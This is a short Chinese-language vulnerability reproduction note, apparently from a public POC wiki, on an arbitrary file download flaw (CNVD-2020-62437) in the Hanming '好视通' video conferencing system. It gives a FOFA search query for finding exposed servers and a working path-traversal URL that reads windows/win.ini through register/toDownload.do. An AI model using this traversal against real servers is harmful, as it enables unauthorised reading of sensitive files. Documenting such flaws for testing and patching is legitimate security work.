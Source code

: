 # 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下

![](银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437.assets/1627363104082676.jpg)

漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437.assets/1627363104398526.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Yinpeng_Hanming_Video_Conferencing__Arbitrary_file_read.json

![](银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437.assets/1627363104856406.jpg)

![](银澎云计算-好视通视频会议系统-任意文件下载-CNVD-2020-62437.assets/1627363105232565.jpg)
